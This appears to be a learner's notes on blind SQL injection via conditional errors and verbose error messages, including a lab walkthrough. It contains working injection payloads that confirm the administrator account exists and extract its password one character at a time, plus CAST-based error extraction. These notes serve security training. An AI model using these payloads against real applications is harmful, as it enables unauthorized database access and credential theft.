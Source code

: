 To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn: 
```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a -- 
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

Using this technique, you can retrieve data by testing one character at a time: 
```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

### Example of LAB: Blind SQL injection with conditional errors
- First figure out what kind of db we're dealing with
Missed this step in this lab

- Make sure we only get an error when we intentionally throw it
```
' AND (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '1' END FROM dual)='1' --
```

- Make sure user exists
```
' AND (SELECT CASE WHEN ((SELECT username FROM users WHERE username = 'administrator')='administrator') THEN '1' ELSE TO_CHAR(1/0) END FROM dual)='1'
``` 

- Find the first letter of the password
```
' AND (SELECT CASE WHEN ((SELECT SUBSTR(password, 1, 1) FROM users WHERE username = 'administrator')='a') THEN 'a' ELSE TO_CHAR(1/0) END FROM dual)='a' --
```

## Extracting sensitive data via verbose SQL error messages
Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker. For example, consider the following error message, which occurs after injecting a single quote into an id parameter:
```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = ```. Expected char
```
This shows the full query that the application constructed using our input. We can see that in this case, we're injecting into a single-quoted string inside a WHERE statement. This makes it easier to construct a valid query containing a malicious payload

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a visible one. 

You can use the CAST() function to achieve this. It enables you to convert one data type to another. For example, imagine a query containing the following statement: 
```
CAST((SELECT example_column FROM example_table) AS int)
```
Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an int, may cause an error similar to the following: 
```
ERROR: invalid input syntax for type integer: "Example data"
```
__This type of query may also be useful if a character limit prevents you from triggering conditional responses.__ 
